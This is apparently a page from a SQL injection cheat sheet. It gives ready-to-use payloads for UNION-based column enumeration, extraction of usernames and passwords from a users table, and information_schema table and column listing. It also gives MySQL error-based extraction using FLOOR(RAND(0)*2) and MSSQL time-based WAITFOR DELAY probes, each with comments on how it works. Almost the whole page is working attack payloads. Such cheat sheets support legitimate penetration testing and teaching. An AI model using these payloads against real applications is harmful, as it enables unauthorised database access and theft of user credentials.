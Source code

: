 ## Attack Vectors

### UNION Based Injection

UNION-based attacks allow combining the results of two queries. First step is finding the correct number of columns:

```sql
# Column number enumeration - Finding number of columns in original query
' ORDER BY 1--  # Tests if 1 column exists
' ORDER BY 2--  # Tests if 2 columns exist
# Continue incrementing until error occurs, revealing column count

# Alternative column enumeration using UNION
' UNION SELECT NULL--       # Tests for 1 column
' UNION SELECT NULL,NULL--  # Tests for 2 columns
# NULL values are used because they can convert to any data type

# Data extraction after finding column count
' UNION SELECT username,password FROM users--  
# Direct extraction of user credentials when 2 columns are confirmed

' UNION SELECT table_name,NULL FROM information_schema.tables--
# Lists all tables in database, NULL to match column count

' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
# Lists all columns in users table
```

### Error Based Injection

Error-based injections extract data through database error messages. These are  particularly useful when you can see error output.

```sql
# MySQL error-based extraction
# Uses GROUP BY and RAND() to force a duplicate key error containing our data
AND (SELECT 6062 FROM(
    SELECT COUNT(*),
    CONCAT(0x716b627071,     # Prefix hex marker
        (SELECT version()),   # Data we want to extract
        0x7178707871,        # Suffix hex marker
        FLOOR(RAND(0)*2))x   # Forces the error
    FROM INFORMATION_SCHEMA.PLUGINS 
    GROUP BY x)a)

# Similar technique but extracting database name
AND (SELECT 2067 FROM (
    SELECT COUNT(*),
    CONCAT(0x716b627071,
        (SELECT database()),  # Extracts current database name
        0x7178707871,
        FLOOR(RAND(0)*2))x 
    FROM INFORMATION_SCHEMA.PLUGINS 
    GROUP BY x)a)

# MSSQL Time-based data extraction
# Uses IF statement with WAITFOR to check conditions
'; IF (SELECT system_user) = 'sa' WAITFOR DELAY '0:0:5'--
# Delays response by 5 seconds if current user is 'sa'

';IF (SELECT COUNT(name) FROM sysobjects WHERE name = 'sometable')>0 WAITFOR DELAY '0:0:5'--
# Delays response if table 'sometable' exists
```
